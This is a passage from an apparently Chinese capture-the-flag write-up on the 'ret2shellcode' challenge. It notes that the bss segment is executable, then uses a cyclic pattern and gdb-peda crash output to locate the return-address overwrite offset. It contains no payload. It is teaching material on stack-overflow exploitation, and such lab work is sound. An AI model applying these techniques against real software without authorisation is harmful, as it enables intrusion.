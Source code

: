 通过 vmmap，我们可以看到 bss 段对应的段具有可执行权限

一切完成后，可以发现这个文件可以进行ret2shellcode

重新动态调试，计算偏移（前面讲过，这里不再说了）

```powershell
root@kali:~/桌面/CTF# cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
root@kali:~/桌面/CTF# gdb ret2shellcode
GNU gdb (Debian 8.2.1-2) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ret2shellcode...done.
gdb-peda$ run
Starting program: /root/桌面/CTF/ret2shellcode 
No system for you this time !!!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
bye bye ~
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffac9c ("bye bye ~")
EDX: 0xf7fad890 --> 0x0 
ESI: 0xf7fac000 --> 0x1d9d6c 
EDI: 0xf7fac000 --> 0x1d9d6c 
EBP: 0x62616163 ('caab')
ESP: 0xffffd270 ("eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
EIP: 0x62616164 ('daab')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x62616164
[------------------------------------stack-------------------------------------]
0000| 0xffffd270 ("eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0004| 0xffffd274 ("faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0008| 0xffffd278 ("gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0012| 0xffffd27c ("haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0016| 0xffffd280 ("iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0020| 0xffffd284 ("jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0024| 0xffffd288 ("kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
0028| 0xffffd28c ("laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```